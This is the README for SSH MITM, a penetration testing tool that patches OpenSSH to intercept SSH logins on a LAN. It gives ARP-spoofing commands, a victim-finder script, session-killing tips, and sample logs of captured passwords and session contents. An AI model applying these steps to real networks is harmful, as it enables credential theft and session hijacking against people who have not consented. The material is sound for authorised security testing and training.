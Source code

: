 # SSH MITM v2.1

Author: [Joe Testa](https://www.positronsecurity.com/company/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v2.1: January 4, 2018: Enabled non-interactive command execution, connections to old servers with weak algorithms can now be intercepted, fixed two major bugs which caused AppArmor to kill some connections, and improved error logging.
* v2.0: September 12, 2017: Added full SFTP support(!) and AppArmor confinement.
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.
* v1.0: May 16, 2017: Initial revision.


## To Do

The following list tracks areas to improve:

* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute within.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions (using the *tcpkill* tool), prompting clients to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *start.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/*.  SSH sessions are logged as *shell_session_\*.txt*, and SFTP sessions are logged as *sftp_session_\*.html* (with transferred files stored in a corresponding directory).


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    Sep 11 19:28:14 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session is logged:

    # cat /home/ssh-mitm/shell_session_0.txt
    Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    Last login: Thu Aug 31 17:42:38 2017
    OpenBSD 6.1 (GENERIC.MP) #21: Wed Aug 30 08:21:38 CEST 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.

All SFTP activity is captured as well.  Use a browser to view *sftp_session_0.html*.  It contains a log of commands, with links to files uploaded and downloaded:

    # cat /home/ssh-mitm/sftp_session_0.txt
    <html><pre>Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    > realpath "." (Result: /home/jdog)
    > realpath "/home/jdog/." (Result: /home/jdog)
    > ls /home/jdog
    drwxr-xr-x    4 jdog     jdog         4096 Sep 11 16:12 .
    drwxr-xr-x    4 root     root         4096 Sep  6 11:53 ..
    -rw-r--r--    1 jdog     jdog         3771 Aug 31  2015 .bashrc
    -rw-r--r--    1 jdog     jdog          220 Aug 31  2015 .bash_logout
    drwx------    2 jdog     jdog         4096 Sep  6 11:54 .cache
    -rw-r--r--    1 jdog     jdog          655 May 16 08:49 .profile
    drwx------    2 jdog     jdog         4096 Sep  8 16:59 .ssh
    -rw-rw-r--    1 jdog     jdog      5242880 Sep  8 15:52 file
    -rw-rw-r--    1 jdog     jdog        43131 Sep 10 10:47 file2
    -rw-rw-r--    1 jdog     jdog           83 Sep  6 12:56 file3
    -rw-rw-r--    1 jdog     jdog      3048960 Sep 11 13:51 file4

    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > put <a href="sftp_session_0/file5">/home/jdog/file5</a>
    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > stat "/home/jdog/file5" (Result: flags: 15; size: 854072; uid: 1001; gid: 1001; perm: 0100664, atime: 1505172831, mtime: 1505172831)
    > setstat "/home/jdog/file5" (Result: flags: 4; size: 0; uid: 0; gid: 0; perm: 0100700, atime: 0, mtime: 0)
    </pre></html>


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To test out changes to the OpenSSH source code, use the *dev/redeploy.sh* script.

To see a diff of uncommitted changes, use the *dev/make_diff_of_uncommitted_changes.sh* script.

To re-generate a full patch to the OpenSSH sources, use the *dev/regenerate_patch.sh* script.
